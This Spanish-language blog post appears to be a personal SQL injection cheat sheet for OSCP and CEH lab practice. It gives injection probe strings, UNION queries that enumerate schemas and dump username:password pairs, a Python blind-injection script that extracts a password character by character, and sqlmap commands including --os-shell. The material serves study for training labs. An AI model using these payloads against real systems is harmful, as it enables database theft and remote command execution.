 ```yaml
---
layout: post
author: Sergio Salgado
---
```


## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
- <a href="#identificar_la_inyeccion">Identificar la inyeccion</a>
- <a href="#consultas_basicas">Consultas basicas</a>

## [](#header-2)<a id="introduccion">Introduccion</a>
SQL (Structured Query Language) Injection, comunmente llamado SQLi, es un ataque sobre aplicaciones web que tienen comunicacion con servidores de base de datos que tiene como objetivo realizar consultas maliciosas o fuera de permisos. 
Cuando una aplicacion web se comunica con la base de datos gracias a la informacion pasada por algun campo de entrada para el usuario y no es validada propiamente esta informacion, corre potencialmente la posibilidad de que un atacante pueda ejecutar la consulta y asi robar, borrar o alterar la informacion.
Esto atenta contra los principios de disponibilidad, confidencialidad e integridad de la informacion y es importante su atencion a esta vulnerabilidad web tan antigua. 

El objetivo de este post es agilizar la busqueda de posibles entradas en inyecciones posibles que he visto para entrar en sql y poder tambien almacenar descriptivamente la estructura de sql para enumerar informacion de las bases de datos; ya que en el OSCP no esta permitido el uso de sqlmap y asi tambien ayudarme en la practica de esta intrusion.

## [](#header-2)<a id="tipos_respuestas">Identificando Tipos de respuestas</a>
### [](#header-3)<a id="In-Band SQL Ijection">In-Band SQL Ijection</a>
Este es el tipo mas facil de detectar y explotar por que hace referencia al mismo metodo de comunicacion que es usado para hacer la explotacion de la vulnerabilidad, como por ejemplo descubriendo la inyeccion de SQL y en el mismo website poder extraer la indormacion.

### [](#header-3)<a id="Error-Based">Error-Based SQL Ijection</a> 
Este tipo de inyeccion es la mas util para obtener facilmente informacion sobre la base de datos por medio de mensajes de error que son mostrados directamente en el navegador.


### [](#header-3)<a id="Union-Based">Union-Based SQL Ijection</a>
Este tipo de inyeccion utiliza el operador UNION de SQL junto con un SELECT para mostrar resultados adicionales en la pagina


## [](#header-2)<a id="identificar_la_inyeccion">Identificar la inyeccion</a>
 En esta seccion pondre algunas de las tipicas formas de pasar algunos filtros para las inyecciones de SQL

Podemos intentar primero confirmar la existencia de la vulnerabilidad en SQL con simplemente:

 ```s
 ' -- -
 )' -- -

'; #

  ' #
 )' #

  ' ;
 )' ;

 -- -Para obtener el numero de columnas podemos intentar un 
 ') order by 3 -- -
 
 ```

## [](#header-2)<a id="consultas_basicas">Consultas basicas</a>
Lo primero que tenemos que hacer es ejecutar una sentencia que nos muestre mas informacion si que exista error en nuestra syntax con la funcion UNION. Como por ejemplo:

```SQL
1 UNION SELECT 1
```

Si existe un error con la sentencia anterior, significara que el numero de columnas es diferente al que hemos probado, asi que podemos intentar un:

```SQL
1 UNION SELECT 1,2
```

El mismo error, significara que tendremos que aumentar igualmente el numero de columnas.
Ahora lo que queremos es sacar la primera consulta con informacion, la cual podemos tener cambiando el 1 por el 0 de la manera siguiente:

```SQL
0 UNION SELECT 1,2,3
```

El siguiente ejemplo es aplicable en la maquina Overflow de Hack the Box.

En este caso la informacion se listara en el campo 3, ya que es el que esta libre para mostrar la informacion.

 ```SQL
-- - Para listar las bases de datos podemos hacer un:
union select 1,2,database()

-- - Para listar las tablas dentro de una bd podemos hacer un:
union select 1,2,table_name from information_schema.tables where table_schema=\"cmsmsbd"\ limit {numero de posicion de la tabla},1-- -

0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'

-- - Para listar las columnas dentro de una tabla podemos hacer un:
union select 1,2,column_name from information_schema.columns where table_schema=\"cmsmsbd"\ and table_name=\"cms_users"\ limit {numero de posicion de la columna},1-- -

0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'

-- - Para listar los datos de una columna dentro de un mismo campo podemos hacer un:
union select 1,2,group_concat(username, 0x3a, password) from cmsmsdb.cms_users -- -
union select 1,2,sitepref_value from cmsmsdb.cms_siteprefs -- -

0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users

-- - Para listar la informacion de una tabla completa 
select * from tablename;
 ```

Programa de Python para encontrar contrasenas

```py
import json
import requests

def sql_injection_advance_5():
    alphabet_index = 0
    alphabet = 'abcdefghijklmnopqrstuvxyz'
    password_index = 0
    password = ''

    headers = {
        'Cookie': ''
    }

    while True:
        payload = 'tom\' AND substring(password,{},1)=\'{}'.format(password_index + 1, alphabet[alphabet_index])

        data = {
            'username_reg' : payload,
            'email_reg': 'a@a',
            'password_reg': 'a',
            'confirm_password_reg': 'a'
        }

        r = requests.put(LINK, headers=headers, data=data)

        try:
            response = json.loads(r.text)
        except:
            print("Error en JSESSIONID, lo encontraras cuando estes logeado")
            return
        
        if "already exists please try to register with a diferent username" not in response['feedback']:
            alphabet_index += 1
            if alphabet_index > len(alphabet) - 1:
                return
        else:
            password += alphabet[alphabet_index]
            print(password)
            alphabet_index = 0
            password_index += 1

sql_injection_advance_5()
```

# [](#header-1)<a id="sqlmap">SQL CEH</a>
## [](#header-2)SQLi sqlmap
Primero podemos hacer una enumeracion de las bases de datos. 
```s
sqlmap -u [URL] --cokie="COOKIE" --dbs
```
Después podemos enumerar las tablas dentro de una base de datos:
```s
sqlmap -u [URL] --cokie="COOKIE" -D moviescope --tables
```

Podemos mandar a traernos una shell con:
```s
sqlmap -u [URL] --cokie="COOKIE" --os-shell
#Comandos de sqlmap shell
hostname
TASKLIST
help
```
En este ejercicio, para extraer la cookie, en la consola ejecutó document.cookie

## [](#header-2)Detection SQLi Vulnerabilities OWASP ZAP
Para entrar a la aplicación, esta se encuentra en la maquina windows y nombre ZAP OWASP
Dentro de la aplicacion seleccionamos la opcion: Automated scan. Una vez seleccionado la opcion podremos poner la URL. Iniciamos el escaneo, y ahora en el apartado de Alerts podremos ver las vulnerabilidades(Bajas, medias y altas) de SQL, entre otras.

